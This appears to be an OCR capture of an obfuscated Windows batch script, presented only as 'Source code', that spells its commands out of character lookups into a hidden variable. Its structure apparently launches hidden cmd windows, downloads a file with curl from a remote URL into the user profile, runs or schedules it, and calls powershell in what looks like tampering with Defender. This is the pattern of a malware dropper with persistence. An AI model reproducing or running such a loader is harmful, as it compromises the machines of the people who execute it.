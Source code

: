 %Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~46,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~25,1%%Keyp:~60,1%%Keyp:~38,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~22,1%%Keyp:~7,1%%Keyp:~39,1%%Keyp:~20,1% %Keyp:~49,1%%Keyp:~32,1%%Keyp:~32,1%%Keyp:~40,1%%Keyp:~13,1%://%Keyp:~22,1%%Keyp:~7,1%%Keyp:~32,1%%Keyp:~32,1%.%Keyp:~20,1%%Keyp:~27,1%/%Keyp:~20,1%%Keyp:~18,1%%Keyp:~35,1%%Keyp:~27,1%%Keyp:~37,1%%Keyp:~9,1%%Keyp:~40,1% --%Keyp:~51,1%%Keyp:~7,1%%Keyp:~32,1%%Keyp:~40,1%%Keyp:~7,1%%Keyp:~32,1% %%Keyp:~31,1%%Keyp:~48,1%%Keyp:~52,1%%Keyp:~41,1%%Keyp:~42,1%%Keyp:~41,1%%Keyp:~28,1%%Keyp:~26,1%%Keyp:~37,1%%Keyp:~34,1%%Keyp:~52,1%%\%Keyp:~13,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%
%Keyp:~22,1%%Keyp:~7,1%%Keyp:~39,1%%Keyp:~20,1% %Keyp:~49,1%%Keyp:~32,1%%Keyp:~32,1%%Keyp:~40,1%%Keyp:~13,1%://%Keyp:~22,1%%Keyp:~23,1%%Keyp:~38,1%.%Keyp:~23,1%%Keyp:~60,1%%Keyp:~13,1%%Keyp:~22,1%%Keyp:~51,1%%Keyp:~39,1%%Keyp:~23,1%%Keyp:~58,1%%Keyp:~40,1%%Keyp:~40,1%.%Keyp:~22,1%%Keyp:~51,1%%Keyp:~25,1%/%Keyp:~58,1%%Keyp:~32,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~22,1%%Keyp:~49,1%%Keyp:~25,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~32,1%%Keyp:~13,1%/%Keyp:~57,1%%Keyp:~5,1%%Keyp:~57,1%%Keyp:~5,1%%Keyp:~17,1%%Keyp:~17,1%%Keyp:~2,1%%Keyp:~45,1%%Keyp:~55,1%%Keyp:~57,1%%Keyp:~3,1%%Keyp:~17,1%%Keyp:~57,1%%Keyp:~2,1%%Keyp:~45,1%%Keyp:~2,1%%Keyp:~36,1%%Keyp:~5,1%/%Keyp:~57,1%%Keyp:~5,1%%Keyp:~57,1%%Keyp:~3,1%%Keyp:~36,1%%Keyp:~2,1%%Keyp:~36,1%%Keyp:~2,1%%Keyp:~36,1%%Keyp:~45,1%%Keyp:~2,1%%Keyp:~3,1%%Keyp:~36,1%%Keyp:~45,1%%Keyp:~55,1%%Keyp:~5,1%%Keyp:~36,1%%Keyp:~3,1%/%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1%_%Keyp:~11,1%%Keyp:~24,1%_%Keyp:~34,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%.%Keyp:~32,1%%Keyp:~47,1%%Keyp:~32,1% --%Keyp:~51,1%%Keyp:~7,1%%Keyp:~32,1%%Keyp:~40,1%%Keyp:~7,1%%Keyp:~32,1% %Keyp:~44,1%:\%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1%\%Keyp:~48,1%%Keyp:~27,1%%Keyp:~13,1%%Keyp:~32,1%%Keyp:~61,1%%Keyp:~25,1%%Keyp:~29,1%%Keyp:~45,1%\%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1%_%Keyp:~11,1%%Keyp:~24,1%_%Keyp:~34,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%.%Keyp:~47,1%%Keyp:~25,1%%Keyp:~20,1%
%Keyp:~22,1%%Keyp:~20,1%%Keyp:~13,1%
%Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~46,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~25,1%%Keyp:~60,1%%Keyp:~38,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~13,1%%Keyp:~22,1%%Keyp:~49,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~13,1%%Keyp:~35,1%%Keyp:~13,1% /%Keyp:~44,1%%Keyp:~39,1%%Keyp:~61,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1% /%Keyp:~56,1%%Keyp:~59,1%%Keyp:~34,1% "%Keyp:~44,1%:\%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1%\%Keyp:~48,1%%Keyp:~27,1%%Keyp:~13,1%%Keyp:~32,1%%Keyp:~61,1%%Keyp:~25,1%%Keyp:~29,1%%Keyp:~45,1%\%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1%_%Keyp:~11,1%%Keyp:~24,1%_%Keyp:~34,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%.%Keyp:~47,1%%Keyp:~25,1%%Keyp:~20,1%" /%Keyp:~32,1%%Keyp:~38,1% "%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1% %Keyp:~11,1%%Keyp:~24,1% %Keyp:~34,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%"
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% %Keyp:~14,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~61,1%-%Keyp:~49,1%%Keyp:~51,1%%Keyp:~13,1%%Keyp:~32,1% -%Keyp:~0,1%%Keyp:~51,1%%Keyp:~39,1%%Keyp:~61,1% %Keyp:~50,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1%%Keyp:~51,1%%Keyp:~14,1% %Keyp:~44,1%%Keyp:~39,1%%Keyp:~61,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1% %Keyp:~26,1%%Keyp:~51,1%%Keyp:~20,1%%Keyp:~23,1%%Keyp:~61,1%%Keyp:~39,1% \%Keyp:~4,1%%Keyp:~61,1%%Keyp:~13,1%%Keyp:~35,1%%Keyp:~32,1%%Keyp:~51,1%%Keyp:~40,1%\%Keyp:~54,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~60,1%%Keyp:~38,1%_%Keyp:~42,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~8,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1%_%Keyp:~48,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~8,1%%Keyp:~61,1%%Keyp:~39,1%
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% -%Keyp:~22,1%%Keyp:~51,1%%Keyp:~25,1%%Keyp:~25,1%%Keyp:~58,1%%Keyp:~38,1%%Keyp:~23,1% "%Keyp:~48,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1%-%Keyp:~48,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~61,1%%Keyp:~40,1% -%Keyp:~13,1% %Keyp:~2,1%"
%Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~46,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~25,1%%Keyp:~60,1%%Keyp:~38,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~25,1%%Keyp:~23,1% "%%Keyp:~31,1%%Keyp:~48,1%%Keyp:~52,1%%Keyp:~41,1%%Keyp:~42,1%%Keyp:~41,1%%Keyp:~28,1%%Keyp:~26,1%%Keyp:~37,1%%Keyp:~34,1%%Keyp:~52,1%%\%Keyp:~4,1%%Keyp:~61,1%%Keyp:~13,1%%Keyp:~35,1%%Keyp:~32,1%%Keyp:~51,1%%Keyp:~40,1%\%Keyp:~54,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~60,1%%Keyp:~38,1%_%Keyp:~42,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~8,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1%_%Keyp:~48,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~8,1%%Keyp:~61,1%%Keyp:~39,1%"